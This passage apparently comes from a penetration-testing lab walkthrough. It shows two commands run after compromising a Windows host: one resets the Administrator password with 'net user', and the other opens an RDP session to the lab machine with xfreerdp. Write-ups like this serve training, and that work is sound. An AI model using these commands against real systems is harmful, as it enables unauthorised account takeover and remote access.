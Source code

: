 <figure><img src="../../../../../.gitbook/assets/image (33) (1).png" alt=""><figcaption></figcaption></figure>

* Change the `Administrator` user's password (no recommended in a real-world system) because it can be suspected that the machine is being hacked easily.

> 📌 _During a standard Pentest, create another user account, add it to the Administrators group and utilize that one._

```bash
net user administrator hacker_123321
    net user administrator hacker_123321
    The command completed successfully.
exit
```

Legitimate credentials are now: `administrator`: `hacker_123321`

* In a new Terminal TAB

```bash
xfreerdp /u:administrator /p:hacker_123321 /v:10.0.17.50
```

<figure><img src="../../../../../.gitbook/assets/image (37) (1).png" alt=""><figcaption></figcaption></figure>
